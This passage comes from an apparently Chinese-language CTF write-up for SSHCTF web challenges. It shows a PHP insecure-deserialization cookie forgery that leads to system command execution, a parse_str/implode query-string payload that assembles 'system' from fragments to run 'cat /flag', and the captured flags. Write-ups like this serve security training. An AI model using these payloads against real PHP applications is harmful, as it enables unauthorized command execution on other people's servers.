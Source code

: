 ![](https://s2.loli.net/2024/11/14/glpM2rYAaHFnRLB.png)

``` 
SSHCTF{98d22575-a26d-48b0-9452-549433760b64}
```

### Baby Unserialize

伪造一个$user对象，序列化后base64编码，作为cookie访问页面

先试试phpinfo();

```php
<?php
class sshctf{
    public $in = true;
    public $cmd = "phpinfo();";
}

$cookie = base64_encode(serialize(new sshctf()));
echo $cookie;
?>
# Tzo2OiJzc2hjdGYiOjI6e3M6MjoiaW4iO2I6MTtzOjM6ImNtZCI7czoxMDoicGhwaW5mbygpOyI7fQ==
```

成功pass，将`$cmd`的值设为`system('find / -name *flag*')`，得到flag在/usr/local/etc/flag.txt

执行`system('cat /usr/local/etc/flag.txt')`，得到flag

![](https://s2.loli.net/2024/11/14/z9CowMYuVdntxiQ.png)

``` 
SSHCTF{58e9ff21-3327-4d31-a4a3-d1662095cb20}
```

### ezphp

hint：查看robots.txt和利用implode函数

查看/robots.txt，有一个phphpp.php，访问phphpp.php

- GET：`?cover=a[0]=implode&c=sys&d=tem&b=cat /flag`

`parse_str($cover);` 会将cover的值作为php代码解析

根据hint要用implode，所以需要`$a[0] = implode`，推出`cover=a[0]=implode`

`$c` 和 `$d` 是implode的参数，两个拼起来是system即可，这里用`c=sys&d=tem`

`$b` 是system要执行的指令，`d=cat /flag`

![](https://s2.loli.net/2024/11/14/nu4mD6kd9NB53oe.png)

``` 
SSHCTF{0021a89a-1f09-4747-85ea-f55702b7f257}
```

### 钱包危机

